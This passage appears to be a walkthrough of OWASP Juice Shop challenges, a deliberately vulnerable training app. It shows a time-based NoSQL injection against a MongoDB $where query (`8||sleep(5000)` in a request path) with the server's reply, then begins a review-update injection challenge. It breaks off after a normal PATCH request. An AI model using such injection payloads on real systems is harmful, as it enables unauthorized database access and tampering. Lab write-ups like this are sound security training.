Nice! The 500 error we saw earlier referenced $where. The [MongoDB documentation on $where](https://docs.mongodb.com/manual/reference/operator/query/where/#op._S_where) indicates that it's quite flexible, and includes a list of functions that are available inside. Fortunately for us, `sleep()` is one of them.

Maybe just pop a `sleep()` in there and hope it gets evaluated?

```
GET /rest/product/8||sleep(5000)/reviews HTTP/1.1
```

```
HTTP/1.1 200 OK
[...]

{"status":"success","data":[]}
```

Yep.

![nosql](/img/owasp-juice-shop-v7.3.0/juice087.png)

# NoSQL Injection Tier 2
> Update multiple product reviews at the same time.

Recall that a logged-in user can edit their own product reviews through the webapp.

![nosql](/img/owasp-juice-shop-v7.3.0/juice088.png)

Looking at the request/response when performing this action normally, 

```
PATCH /rest/product/reviews HTTP/1.1
[...]

{"id":"Au437SixcxCmq7Eur","message":"n0j was here"}
```

```
HTTP/1.1 200 OK
[...]

{"modified":1,"original":[{"message":"One of my favorites!","author":"admin@juice-sh.op","product":1,"_id":"Au437SixcxCmq7Eur"}],"updated":[{"message":"n0j was here","author":"admin@juice-sh.op","product":1,"_id":"Au437SixcxCmq7Eur"}]}
```
